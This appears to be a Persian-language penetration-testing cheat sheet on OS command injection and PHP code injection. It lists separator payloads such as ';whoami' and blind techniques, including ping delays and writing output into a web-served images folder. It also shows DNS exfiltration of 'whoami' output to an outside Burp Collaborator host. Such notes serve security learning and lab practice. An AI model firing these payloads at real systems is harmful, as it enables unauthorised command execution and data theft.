 # Remote Command Execution

## Concept
- در بخش های زیر به دنبال این آسیب پذیری می گردیم :
  - انتخاب یک آیتم از درون dropdown box
    - باید برای تغییر این پارامتر و نیز مشاهده تاثیر در پاسخ، حتما از Burp استفاده کنیم
  - درون فیلدهای بخش ثبت نظرات که ممکن است از دستورات سیستمی برای پردازش اطلاعات کاربر (مانند ایمیل) استفاده شده باشد
    - هنگام استفاده از Burp باید حتما URL Encoding داشته باشیم (مثلا به جای فاصله از + استفاده کنیم)

## Payloads
```
;whoami
;%20whoami
&whoami
&&whoami
|whoami
||whoami
%0Awhoami
```

## Blind OS Command Injection
- **Time delays**
    - ```x||ping+-c+10+127.0.0.1||```
    - <p align="right">در این حالت پس از اجرای دستور فوق، 10 ثانیه طول می کشد تا response را در مرورگر مشاهده کنیم</p> 

- **Output redirection**
    - ```||whoami>/var/www/images/output.txt||```
    - <p align="right">عکس ها در مسیر فوق ذخیره شده اند، در این حالت، خروجی دستور در مسیر share شده ذخیره می گردد و بعدا می توانیم یکی از عکس های محصولات را باز کرده، سپس نام  فایل را با نام output.txt تغییر دهیم، تا نتیجه دستور را مشاهده کنیم</p>

- **Out-of-band interaction**
    - ```x||nslookup+7goyqnfizle0fk6mj5zk5qjtrkxalz.burpcollaborator.net```
    - <p align="right">در اینحالت سرور می تواند به یک آدرس بیرونی وصل شود، برای بررسی از Burp Collaborator استفاده می کنیم </p>

- **Out-of-band data exfilteration**
    - ```||nslookup+`whoami`.x0y8fg1javlrivvsd4hp2koh58byzn.burpcollaborator.net||```
    - <p align="right">در اینحالت می خواهیم نتیجه دستور در کوئری DNS به سمت سرور مهاجم در اینترنت ارسال شود، که در اینجا از Burp Collaborator استفاده شده (باید بر روی Pull now کلیک شود) و خروجی به شکل زیر خواهد بود.</p>
    - ```peter-jSRUyX.x0y8fg1javlrivvsd4hp2koh58byzn.burpcollaborator.net.burpcollaborator.net```
# Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Sample PHP executable
- https://www.php.net/manual/en/function.shell-exec.php

